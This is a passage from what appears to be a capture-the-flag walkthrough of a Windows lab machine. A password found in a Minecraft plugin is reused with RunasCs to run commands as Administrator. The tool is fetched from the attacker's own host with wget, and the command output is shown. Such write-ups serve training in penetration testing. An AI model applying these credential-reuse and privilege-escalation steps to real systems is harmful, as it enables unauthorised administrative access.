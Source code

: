 It’s connecting to `rkon` on port 27015 with the password “s67u84zKq8IXw”. In theory this is updating a `playercount.txt` in the web directory, though that file doesn’t actually exist on Crafty.

### RunasCs

#### Test Password

Without access to SMB, LDAP, WinRM, Kerberos, or any other authenticated Window services, I don’t have a good way to check this password from my host. I’ll upload a copy of [RunasCs](https://github.com/antonioCoco/RunasCs) by downloading a copy from the releases and hosting it on my Python web server. Then, from a directory svc\_minecraft can write to (I like to stage out of `C:\programdata`), I can request it from Crafty:

```

PS C:\programdata> wget http://10.10.14.6/RunasCs.exe -outfile RunasCs.exe
PS C:\programdata> ls

    Directory: C:\programdata

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d---s-        4/10/2020  10:46 AM                Microsoft
d-----       10/24/2023  12:34 PM                Oracle
d-----         2/6/2024  12:40 AM                Package Cache
d-----       11/21/2023   9:54 PM                regid.1991-06.com.microsoft
d-----        9/15/2018  12:19 AM                SoftwareDistribution
d-----        4/10/2020   5:48 AM                ssh
d-----        4/10/2020  10:49 AM                USOPrivate
d-----        4/10/2020  10:49 AM                USOShared
d-----        8/25/2021   2:57 AM                VMware
-a----        6/10/2024   6:29 PM          51712 RunasCs.exe

```

The basic syntax is `RunasCs.exe <username> <password> <cmd>`. With a bad password, it fails:

```

PS C:\programdata> .\RunasCs.exe Administrator notthepassword "cmd /c whoami"
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect

```

But with the password from the plugin it works:

```

PS C:\programdata> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
crafty\administrator

```

#### Shell
